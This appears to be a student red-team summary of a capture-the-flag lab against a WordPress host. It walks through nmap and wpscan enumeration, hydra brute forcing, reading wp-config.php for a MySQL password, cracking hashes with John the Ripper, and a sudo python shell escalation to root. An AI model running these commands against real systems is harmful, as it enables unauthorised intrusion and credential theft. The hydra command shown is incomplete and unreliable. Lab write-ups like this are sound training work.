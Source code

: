 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sv 192.168.1.0/24
```
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/nmap.PNG)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 ssh
  - Port 80 http
  - Port 111 rpcbind
  - Port 139 netbios-ssn
  - Port 445 netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Weak User Password (High Severity)
  - User Enumeration (Medium Severity)
  - User Privilege Escalation (High Severity)

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - Users were enumerated with wpscan, Brute Force attack against weak password, then I exploited open port 22
      - wpscan was used to enumerate the users on Target 1
      - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/wpscan.PNG)
   - User michael was targeted
   - Used hydra to brute force `$ hydra -l michael -p /usr/share/wordlists/dirb`
   - Capturing the first flag:
      - `ssh michael@192.168.1.110`
      - `cd /var/www/html`
      - `grep -ir flag1`

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag1.PNG)
      
  - `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c
    - The same process was used, but I used these commands:
      - `cd /var/www`
      - `ls` found flag2.txt

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag2.PNG)

  - `flag3`: afc01ab56b50591e7dccf93122770cd2 and `flag4`: 715dea6c055b9fe3337544932f2941ce
    - To find MySql database login information, this command was used: `cat /var/www/html/wordpress/wp-config.php`

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/mysql%20pword.PNG)
 
   - MySql was were flag3 and flag4 were found using these commands:
      - `mysql -u root -p'R@venSecurity'`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW tables;`
      - `SELECT * FROM wp_posts;`
      
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag3%20and%204.PNG)

  -Additionally, hashes for each user was found, and privelege escalation was exploited.
  
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/mysql%20hashes.PNG)

   - I created a file with the hashes and used John the Ripper to crack them
      - `john hashes.txt -wordlist=/usr/share/wordlists/dirb/big.txt`
   - From there, I connected to Steven's account and open a python shell with root privilege
      - `ssh steven@192.168.1.110`
      - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/last%20photo.PNG)
